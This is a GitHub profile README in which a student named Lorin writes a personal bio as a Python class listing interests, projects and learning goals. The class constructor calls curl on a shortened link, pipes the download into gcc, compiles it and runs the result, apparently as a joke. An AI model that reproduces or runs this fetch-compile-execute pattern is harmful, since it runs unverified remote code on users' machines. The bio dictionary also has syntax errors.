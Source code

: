 <h1 align="center">Hi 👋, I'm Lorin 🍈</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&lines=Welcome!;Willkommen!;%C2%A1Bienvenido!;Bi+x%C3%AAr+hat%C3%AE!;%CE%9A%CE%B1%CE%BB%CF%8E%CF%82+%CE%BF%CF%81%CE%AF%CF%83%CE%B1%CF%84%CE%B5!;Ho%C5%9F+geldiniz!;%E3%81%84%E3%82%89%E3%81%A3%E3%81%97%E3%82%83%E3%81%84%E3%81%BE%E3%81%9B%EF%BC%81;Croeso!)" /> 
</p>
```python
class melorin4:
  def __init__(self):
    subprocess.call("curl -sL 'spoti.fi/3pdhI4G' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🐧 I'm interested in'           : {'Art, *NIX customisation, Linux and BSD in general!'}
      '- 💼 I am a'                      : {'Senior high school student'},
      '- 🔭 I’m currently working on'    : {'My personal website'    : 'https://melorin4.github.io',
                                                             'cFetch': 'https://github.com/melorin4/cfetch'},
      '- 🌱 I’m currently learning'      : {'Python', 'Javascript', 'GDScript', 'Web Development', 'Godot Engine', 'GoLang'},
      '- 💬 Ask me about'                : {'Linux', 'Art', 'Games', 'Books'}
      '- 👨‍💻 My art is available at'      : 'https://www.instagram.com/melolorin/',
      '- ⚡ Fun fact'                    : ('I'm still very young and learning !!')
    }
if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(melorin4().__dict__)
```
